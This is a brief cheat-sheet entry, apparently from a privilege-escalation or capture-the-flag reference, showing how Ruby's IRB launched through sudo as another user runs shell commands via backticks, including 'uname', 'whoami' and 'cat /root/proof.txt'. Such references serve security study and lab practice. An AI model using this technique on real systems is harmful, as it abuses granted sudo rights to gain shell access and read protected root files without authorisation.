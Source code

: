 ```
sudo -u victim ruby -e 'require "irb"; IRB.start(__FILE__)'
```

https://github.com/ruby/irb

Interactive RuBy

```
`uname`
```

```
`whoami`
```

```
`cat /root/proof.txt`
```


